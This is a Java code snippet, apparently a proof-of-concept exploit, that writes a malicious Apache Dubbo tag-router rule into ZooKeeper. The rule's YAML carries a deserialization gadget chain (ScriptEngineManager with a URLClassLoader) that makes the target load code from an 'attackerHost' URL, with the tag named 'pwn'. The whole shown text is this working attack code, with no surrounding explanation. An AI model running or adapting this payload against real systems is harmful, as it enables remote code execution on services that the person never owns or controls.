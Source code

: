 <div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code>
    <span class="kd">public</span> <span class="kd">static</span> <span class="kt">void</span> <span class="nf">main</span><span class="o">(</span><span class="nc">String</span><span class="o">[]</span> <span class="n">args</span><span class="o">)</span> <span class="kd">throws</span> <span class="nc">Exception</span> <span class="o">{</span>

        <span class="n">client</span> <span class="o">=</span> <span class="nc">CuratorFrameworkFactory</span><span class="o">.</span><span class="na">newClient</span><span class="o">(</span><span class="n">zookeeperHost</span> <span class="o">+</span> <span class="s">":2181"</span><span class="o">,</span> <span class="mi">60</span> <span class="o">*</span> <span class="mi">1000</span><span class="o">,</span> <span class="mi">60</span> <span class="o">*</span> <span class="mi">1000</span><span class="o">,</span> <span class="k">new</span> <span class="nc">ExponentialBackoffRetry</span><span class="o">(</span><span class="mi">1000</span><span class="o">,</span> <span class="mi">3</span><span class="o">));</span>
        <span class="n">client</span><span class="o">.</span><span class="na">start</span><span class="o">();</span>

        <span class="nc">String</span> <span class="n">path</span> <span class="o">=</span> <span class="s">"/dubbo/config/dubbo/"</span> <span class="o">+</span> <span class="n">provider_app_name</span> <span class="o">+</span> <span class="s">".tag-router"</span><span class="o">;</span>

        <span class="nc">String</span> <span class="n">rule</span> <span class="o">=</span> <span class="s">"---\n"</span> <span class="o">+</span>
                <span class="s">"tags:\n"</span> <span class="o">+</span>
                <span class="s">"- name: pwn\n"</span> <span class="o">+</span>
                <span class="s">"  addresses:\n"</span> <span class="o">+</span>
                <span class="s">"    - !!javax.script.ScriptEngineManager [\n"</span> <span class="o">+</span>
                <span class="s">"        !!java.net.URLClassLoader [[\n"</span> <span class="o">+</span>
                <span class="s">"          !!java.net.URL [\""</span> <span class="o">+</span> <span class="n">attackerHost</span> <span class="o">+</span> <span class="s">"\"]\n"</span> <span class="o">+</span>
                <span class="s">"        ]]\n"</span> <span class="o">+</span>
                <span class="s">"      ]"</span><span class="o">;</span>

        <span class="k">try</span> <span class="o">{</span>
            <span class="k">if</span> <span class="o">(</span><span class="n">client</span><span class="o">.</span><span class="na">checkExists</span><span class="o">().</span><span class="na">forPath</span><span class="o">(</span><span class="n">path</span><span class="o">)</span> <span class="o">==</span> <span class="kc">null</span><span class="o">)</span> <span class="o">{</span>
               <span class="n">client</span><span class="o">.</span><span class="na">create</span><span class="o">().</span><span class="na">creatingParentsIfNeeded</span><span class="o">().</span><span class="na">forPath</span><span class="o">(</span><span class="n">path</span><span class="o">);</span>
            <span class="o">}</span>
            <span class="n">client</span><span class="o">.</span><span class="na">setData</span><span class="o">().</span><span class="na">forPath</span><span class="o">(</span><span class="n">path</span><span class="o">,</span> <span class="n">rule</span><span class="o">.</span><span class="na">getBytes</span><span class="o">());</span>
        <span class="o">}</span> <span class="k">catch</span> <span class="o">(</span><span class="nc">Exception</span> <span class="n">e</span><span class="o">)</span> <span class="o">{</span>
            <span class="n">e</span><span class="o">.</span><span class="na">printStackTrace</span><span class="o">();</span>
        <span class="o">}</span>
    <span class="o">}</span>
</code></pre></div></div>

